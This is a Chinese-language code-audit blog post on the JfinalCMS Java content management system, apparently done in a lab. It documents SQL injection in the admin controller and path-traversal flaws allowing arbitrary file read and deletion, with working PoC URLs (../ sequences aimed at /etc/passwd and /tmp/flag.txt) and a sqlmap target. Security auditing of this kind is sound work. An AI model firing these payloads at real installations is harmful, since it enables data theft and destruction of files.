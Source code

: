 # Jfinalcms代码审计


<!--more-->





## 简介

框架使用的Jfinal，模板引擎使用的beetl

项目中的pom.xml记录了项目需要的依赖及其版本信息等，审计源码前，可以看看项目的给类依赖是否为存在漏洞的版本，如果有可以针对某个依赖的当前版本存在的漏洞进行验证。







## SQL注入

存在的sql注入较多



### 1

jfinal 框架下的预处理为如下，使用占位符：

```java
Long count = Db.queryLong("select count(1) from cms_admin where username = ?",username);
```



这里使用拼接方式进行数据查询，导致SQL注入：

![image-20240707190258530](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190258530.png)

网上追溯，找到source点：

找到在`com/cms/controller/admin/AdminController.java#index()`里，传入的name、username参数未做任何处理就被传递给`findPage()`，那么这里是存在SQL注入的。

![image-20240707190317616](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190317616.png)



测试：

![image-20240707190517209](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190517209.png)

![image-20240707190510186](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190510186.png)



直接用sqlmap跑：

```
http://localhost:8080/admin/admin?name=1
```

![image-20240707190900237](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190900237.png)













## XSS











## 前台任意文件读取

网上已知这个漏洞的poc：`/common/down/file?filekey=/../../../../../../../../../etc/passwd`

我们根据poc去寻找一下，搜索`/common/down`

![image-20240707170721178](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707170721178.png)



可以看到直接从前端获取文件参数，且没有进行过滤，可以使用`../`跨目录读取文件：

![image-20240707170813575](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707170813575.png)



构造请求：

```
http://192.168.3.214:8080/common/down/file?fileKey=/../../../../../../../../../../../../../../../../../tmp/flag.txt
```



![image-20240707171313474](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707171313474.png)





## 任意文件读取

可以搜索的关键字：

```
org.apache.commons.io.FileUtils
org.springframework.stereotype.Controller
import java.nio.file.Files
import java.nio.file.Path
import java.nio.file.Paths
import java.util.Scanner
sun.nio.ch.FileChannelImpl
java.io.File.list/listFiles
java.io.FileInputStream
java.io.FileOutputStream
java.io.FileSystem/Win32FileSystem/WinNTFileSystem/UnixFileSystem
sun.nio.fs.UnixFileSystemProvider/WindowsFileSystemProvider
java.io.RandomAccessFile
sun.nio.fs.CopyFile
sun.nio.fs.UnixChannelFactory
sun.nio.fs.WindowsChannelFactory
java.nio.channels.AsynchronousFileChannel
FileUtil/IOUtil
BufferedReader
readAllBytes
scanner
```



漏洞点在后台：点击“编辑”的时候，响应会显示文件内容

这个漏洞点在`com/cms/controller/admin/TemplateController.java`中的edit方法：

![image-20240707172003419](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172003419.png)



如果目录**directory**为空的话，则默认就是要传入的文件名

```java
	/**
	 * 编辑
	 */
	public void edit() {
		String fileName = getPara("fileName");
		String directory = getPara("directory");
		if (StringUtils.isBlank(fileName)) {    //filename不能为空
			render(CommonAttribute.ADMIN_ERROR_VIEW);
			return;
		}
		setAttr("directory", directory);
		setAttr("fileName", fileName);
		String filePath = "";
		if(StringUtils.isNotBlank(directory)){   // 目录directory为空和不为空是两种情况，如果目录不为空，则就是以那个目录开始寻找文件
			filePath = "/"+directory.replaceAll(",", "/")+"/"+fileName; //把逗号替换为/,拼接为完整的路径
		}else{
			filePath = "/"+fileName;  //如果目录directory为空的话，则默认就是要传入的文件名
		}
		setAttr("content", StringEscapeUtils.escapeHtml(TemplateUtils.read(filePath)));  //读取
		render(getView("template/edit"));
	}

```



Poc:

```bash
# directory为空
http://192.168.3.214:8080/admin/template/edit?fileName=../../../../../../../../../../../../../../../../../../tmp/flag.txt

# directory不为空
http://192.168.3.214:8080/admin/template/edit?fileName=../../../../../../../../../../../../../../../../../../tmp/flag.txt&directory=default,static
```

![image-20240707172428224](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172428224.png)



![image-20240707172734102](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172734102.png)





## 任意文件删除

都是`admin/template`接口中的，这个是`delete`



可以看到没有任何过滤，可以删除任意文件：

![image-20240707172856234](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172856234.png)

![image-20240707172912044](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172912044.png)





测试：

```
http://192.168.3.214:8080/admin/template/delete?fileName=../../../../../../../../../../../../../../../../../../tmp/flag.txt
```



![image-20240707173853637](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707173853637.png)



同理，update也一样

![image-20240707174007145](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707174007145.png)



同理，`/admin/template/save`也一样







## 任意文件读取



```
http://192.168.3.214:8080/ajax/html?html=../../../../../../../../../../../../../../../../../../tmp/flag.txt
```



目录穿越 直接渲染读取:

![image-20240707174123502](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707174123502.png)













## SSTI

待复现



















---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jfinalcms%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/  

